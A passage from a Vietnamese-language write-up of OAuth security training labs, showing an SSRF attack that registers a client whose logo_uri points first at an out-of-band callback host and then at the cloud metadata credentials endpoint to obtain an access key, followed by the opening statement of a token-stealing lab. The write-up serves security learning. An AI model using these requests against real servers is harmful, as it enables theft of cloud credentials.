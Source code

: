 >Send với 1 URI `redirect_uris` bất kì, ta thấy server trả về **200 OK** thành công và có client_id:
>![image](https://hackmd.io/_uploads/r1ePbI0UC.png)

>Ngoài ra, ở bước ta xác nhận cho phép web truy cập vào thông tin email và profile ở account social media, ta thấy 1 request `GET /client/ID-CLIENT/logo` dùng để lấy logo ở account mxh:
>![image](https://hackmd.io/_uploads/Hya2-UCLR.png)

>Nó slấy logo từ đường dẫn được định nghĩa tại `logo_uri` tương ứng với `client_id`. Tạo 1 request để kiểm tra:
```
POST /reg HTTP/2
Host: oauth-0a320083040fa04e86ed0af202a900c5.oauth-server.net
Content-Type: application/json
Content-Length: 132

{
    "redirect_uris" : [
        "https://test.vn"
    ],
"logo_uri" : "http://0bcsbcwo4sljp88u21un26ha319sxil7.oastify.com"
}
```
>![image](https://hackmd.io/_uploads/HJ997UCLC.png)

>Vậy là ta có thể controll logo URI này để nó GET vào lấy thông tin về URL bất kì ta controll. Ta sẽ sử dụng Collaborator và kiểm tra xem nó có request tới thật không: 
![image](https://hackmd.io/_uploads/HJ_dmUC80.png)

>Sử dụng `client_id` tương ứng và load logo, kiểm tra thì thấy web đã có request tới collab => chứng tỏ ta có thể SSRF chỗ này để server tự trỏ về chính nó và lấy ra được thông tin ta cần:
>![image](https://hackmd.io/_uploads/BJt-4LA80.png)

>Làm lại các bước tương tự với `logo_uri` chính là đường dẫn đề bài yêu cầu: `http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/`:
>![image](https://hackmd.io/_uploads/HyjoE8CL0.png)

>Truy cập logo với `client_id` tương ứng, ta lấy được secret access key của OAuth server:
>![image](https://hackmd.io/_uploads/ryjWrIRIR.png)

>Submit key và hoàn thành bài lab: 
>![image](https://hackmd.io/_uploads/HJ_rBURI0.png)

# **6. Lab: Stealing OAuth access tokens via a proxy page**
>This lab uses an OAuth service to allow users to log in with their social media account. Flawed validation by the OAuth service makes it possible for an attacker to leak access tokens to arbitrary pages on the client application.
To solve the lab, identify a secondary vulnerability in the client application and use this as a proxy to steal an access token for the admin user's account. Use the access token to obtain the admin's API key and submit the solution using the button provided in the lab banner.
The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.
You can log in via your own social media account using the following credentials: `wiener:peter`.
![image](https://hackmd.io/_uploads/SJkyReJvC.png)
